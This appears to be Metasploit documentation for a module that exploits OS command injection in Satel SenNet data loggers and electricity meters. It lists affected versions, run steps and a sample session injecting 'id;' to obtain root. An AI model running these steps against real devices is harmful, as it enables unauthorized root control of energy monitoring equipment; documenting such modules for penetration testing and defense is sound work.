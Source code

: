 This module exploits an OS Command Injection vulnerability in Satel SenNet Data Logger and Electricity Meters to perform arbitrary command execution as 'root'.

The following versions of SenNet Data Logger and Electricity Meters, monitoring platforms, are affected:
1. SenNet Optimal DataLogger V5.37c-1.43c and prior,
2. SenNet Solar Datalogger V5.03-1.56a and prior, and
3. SenNet Multitask Meter V5.21a-1.18b and prior.

## Verification Steps

1. Do: ```use auxiliary/scanner/telnet/satel_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/telnet/satel_cmd_exec
msf auxiliary(satel_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(satel_cmd_exec) > run

[*] 1.3.3.7:5000   - Sending command now - id;
[+] 1.3.3.7:5000   - uid=0(root) gid=0(root)
[+] 1.3.3.7:5000   - File saved in: /root/.msf4/loot/20000000000003_1.3.3.7_cmdexeclog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
